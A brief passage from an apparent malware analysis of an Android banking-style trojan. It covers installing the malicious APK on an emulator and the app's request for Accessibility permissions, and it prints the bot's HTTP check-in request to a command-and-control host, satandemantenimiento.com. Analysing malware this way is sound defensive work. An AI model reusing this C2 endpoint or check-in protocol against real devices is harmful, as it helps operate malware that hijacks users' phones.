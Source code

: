 Install the malicious APK to the emulator:

![](./media/malware-icon.png)

When the malicious application is spawned it prompts the user to enable the Accessibility permissions:

![](./media/enable-accessibility-features.png)

The following data are sent to the C2 at `satandemantenimiento.com`.

```http
GET /api/?param=screen&value=1&botid=4dddcd2334122d7ee728&method=bots.update&access=1 HTTP/1.1
User-Agent: Dalvik/2.1.0 (Linux; U; Android 10; Android SDK built for x86_64 Build/QSR1.210802.001)
Host: satandemantenimiento.com
Connection: close
Accept-Encoding: gzip, deflate

```

